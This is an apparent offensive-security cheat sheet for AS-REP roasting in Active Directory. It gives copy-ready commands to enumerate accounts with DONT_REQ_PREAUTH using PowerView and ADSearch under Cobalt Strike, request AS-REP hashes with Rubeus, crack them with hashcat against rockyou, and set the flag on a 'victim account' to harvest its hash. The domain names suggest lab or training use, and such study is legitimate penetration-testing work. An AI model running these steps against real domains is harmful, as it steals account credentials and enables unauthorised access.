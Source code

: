 # Roasting Attacks

## ASREP Roasting

### Enumeration

#### PowerShell Enumeration of accounts with DONT_REQ_PREAUTH
```PowerShell
Import-Module .\PowerView.ps1
```

```PowerShell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

#### ==COBALT STRIKE: Enumeration of accounts with DONT_REQ_PREAUTH==
```cobalt
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

#### Performing ASREP Roasting with Rubeus
```PowerShell
.\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt
```

#### ==COBALT STRIKE: Performing ASREP Roasting with Rubeus==
```cobalt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap
```

#### Cracking the hash with Hashcat
```cmd.exe
hashcat.exe -m 18200 C:\Tools\hashes.txt C:\Tools\rockyou.txt -O
```

### Set DONT_REQ_PREAUTH with PowerView

- A possible attack vector: If an attacker has GenericWrite or GenericAll permissions over an account, they can enable this attribute and obtain the AS_REP ticket for offline cracking to recover the account's password before disabling it again.

#### Set DONT_REQ_PREAUTH with PowerView
```PowerShell
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose
```
Make sure to replace "userName" with the actual username of the victim account
